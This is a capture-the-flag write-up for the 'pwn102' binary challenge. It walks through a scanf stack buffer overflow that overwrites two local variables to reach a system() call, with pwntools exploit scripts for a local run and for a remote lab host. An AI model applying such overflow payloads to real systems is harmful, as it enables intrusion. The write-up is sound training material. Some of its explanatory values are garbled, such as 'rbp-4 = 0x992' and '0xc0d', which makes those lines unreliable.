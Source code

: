 # Challenge Name : pwn102

category : pwn

## File check

Load file to Cutter . If you dont have cutter this is ref video on how to download and setup your cutter `https://shorturl.at/thoTb`

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn102-1644307392479.pwn102&
```

In Dashboard we can see the protection and the file format.

```
Canary : False
NX bit : True
PIC    : True
```

Lets check out the assembly code in Graph(main). There is scanf function being call

```
0x00000954      5 e8f7fdffff             call    __isoc99_scanf ; sym.imp.__isoc99_scanf ; calls a subroutine, push eip into the stack (esp) ; int scanf(const char *format)
```

Lets see the man page for scanf

`man scanf`

```
BUGS
       It  is  impossible  to  accurately know how many characters these functions have consumed from the input stream,
       since they only report the  number  of  successful  conversions.   For  example,  if  the  input  is  "123\n a",
       scanf("%d %d", &a, &b) will consume the digits, the newline, and the space, but not the letter a.  This makes it
       difficult to recover from invalid input.
```

I see . This function can be use in buffer overflow as gets() function

## Goal 
to call the system() function in the main

```
0x0000098b      5 e890fdffff             call    system ; sym.imp.system ; calls a subroutine, push eip into the stack (esp) ; int system(const char *string)
```

In order to get to that functionwe must make our rbp-4 = 0xc0ff33 and rbp - 8 = 0xc0d3 based on this code here 

```
 817dfc33ffc000         cmp     dword [rbp - 4], 0xc0ff33 ; compare two operands
0x00000960      2 7530                   jne     0x992 ; jump short if not equal/not zero (zf=0)
|
0x00000962      7 817df8d3c00000         cmp     dword [rbp - 8], 0xc0d3 ; compare two operands
0x00000969      2 7527                   jne     0x992 ; jump short if not equal/not zero (zf=0)
```

## Buffer Overflow

scanf take rbp - 0x70 and this is value we have to overwrite
rbp-4 = 0x992 and rbp - 8 = 0x992

## Python Script

### Locally

```

from pwn import *

context.binary = binary = "./pwn102-1644307392479.pwn102"

# buf = rbp - 70
# rbp-4 = 0xc0ff33 and rbp - 8 = 0xc0d3
# payload = padding + 0xc0d + 0xc0ff33 

payload = b"A" * (0x70 - 0x8) + p32(0xc0d3) + p32(0xc0ff33)

p = process()
p.recv()
p.sendline(payload)
p.interactive() 

```


### Remote 

```
from pwn import *

context.binary = binary = "./pwn102-1644307392479.pwn102"

# buf = rbp - 70
# rbp-4 = 0xc0ff33 and rbp - 8 = 0xc0d3
# payload = padding + 0xc0d + 0xc0ff33 

payload = b"A" * (0x70 - 0x8) + p32(0xc0d3) + p32(0xc0ff33)

#p = process()
p = remote("10.10.246.99",9002)
p.recv()
p.sendline(payload)
p.interactive() 

```
